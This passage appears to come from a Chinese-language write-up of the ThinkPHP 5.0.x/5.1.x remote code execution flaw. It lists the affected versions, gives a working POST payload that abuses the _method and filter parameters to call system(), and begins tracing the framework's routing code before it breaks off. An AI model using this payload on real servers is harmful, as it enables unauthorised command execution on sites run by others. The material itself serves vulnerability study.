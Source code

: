 ```php
        return $reflect->invokeArgs($args);
    }
```

## RCE方法2

5.0.0<=ThinkPHP5<=5.0.23

5.1.0<=ThinkPHP<=5.1.30

### 5.0.x版本

>测试版本为5.0.10

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204251420354.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204251516761.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204251416169.png)

```
?s=captcha
POST _method=__construct&filter[]=system&method=get&get[]=pwd
```

或者直接POST传参`_method=__construct&filter[]=system&method=get&get[]=pwd`

#### 开启debug

```php
#thinkphp/start.php
<?php
namespace think;

// ThinkPHP 引导文件
// 加载基础文件
require __DIR__ . '/base.php';
// 执行应用
App::run()->send();#进入App->run
```

```php
#thinkphp/library/think/App.php
    /**
     * 执行应用程序
     * @access public
     * @param Request $request Request对象
     * @return Response
     * @throws Exception
     */
    public static function run(Request $request = null)
    {
        is_null($request) && $request = Request::instance();#调用\think\Request::__construct

        try {
            ...

            // 获取应用调度信息
            $dispatch = self::$dispatch;
            if (empty($dispatch)) {
                // 进行URL路由检测
                $dispatch = self::routeCheck($request, $config);#关键点1
                /*
                $dispatch = {数组} [3]
                 type = "method"
                 method = {数组} [2]
```